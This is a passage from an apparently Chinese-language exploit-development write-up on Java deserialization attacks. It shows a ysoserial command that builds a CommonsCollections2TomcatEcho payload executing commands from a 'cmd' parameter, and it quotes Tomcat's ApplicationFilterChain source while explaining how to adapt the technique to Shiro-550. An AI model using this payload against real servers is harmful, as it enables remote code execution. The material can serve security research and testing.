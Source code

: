 打包ysosrial

```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2TomcatEcho cmd
```

这样就相当于创建了一个从cmd参数获取要执行的命令的payload

### 适配shiro550

上面这种方法已经很好了，但仍然存在一点点小限制

```java
private void internalDoFilter(ServletRequest request, ServletResponse response) throws IOException, ServletException {
    if (this.pos < this.n) {
        ApplicationFilterConfig filterConfig = this.filters[this.pos++];
        try {
            Filter filter = filterConfig.getFilter();
            if (request.isAsyncSupported() && "false".equalsIgnoreCase(filterConfig.getFilterDef().getAsyncSupported())) {
                request.setAttribute("org.apache.catalina.ASYNC_SUPPORTED", Boolean.FALSE);
            }
            if (Globals.IS_SECURITY_ENABLED) {
                Principal principal = ((HttpServletRequest)request).getUserPrincipal();
                Object[] args = new Object[]{request, response, this};
                SecurityUtil.doAsPrivilege("doFilter", filter, classType, args, principal);
            } else {
                filter.doFilter(request, response, this);
            }
        } catch (ServletException | RuntimeException | IOException var15) {
            throw var15;
        } catch (Throwable var16) {
            Throwable e = ExceptionUtils.unwrapInvocationTargetException(var16);
            ExceptionUtils.handleThrowable(e);
            throw new ServletException(sm.getString("filterChain.filter"), e);
        }
    } else {
        try {
            if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
                lastServicedRequest.set(request);
                lastServicedResponse.set(response);
            }
            if (request.isAsyncSupported() && !this.servletSupportsAsync) {
                request.setAttribute("org.apache.catalina.ASYNC_SUPPORTED", Boolean.FALSE);
            }
            if (request instanceof HttpServletRequest && response instanceof HttpServletResponse && GlobalsIS_SECURITY_ENABLED) {
                Principal principal = ((HttpServletRequest)request).getUserPrincipal();
                Object[] args = new Object[]{request, response};
                SecurityUtil.doAsPrivilege("service", this.servlet, classTypeUsedInService, args, principal);
            } else {
                this.servlet.service(request, response);
            }
        } catch (ServletException | RuntimeException | IOException var17) {
            throw var17;
        } catch (Throwable var18) {
            Throwable e = ExceptionUtils.unwrapInvocationTargetException(var18);
            ExceptionUtils.handleThrowable(e);
            throw new ServletException(sm.getString("filterChain.servlet"), e);
        } finally {
            if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
                lastServicedRequest.set((Object)null);
                lastServicedResponse.set((Object)null);
            }
```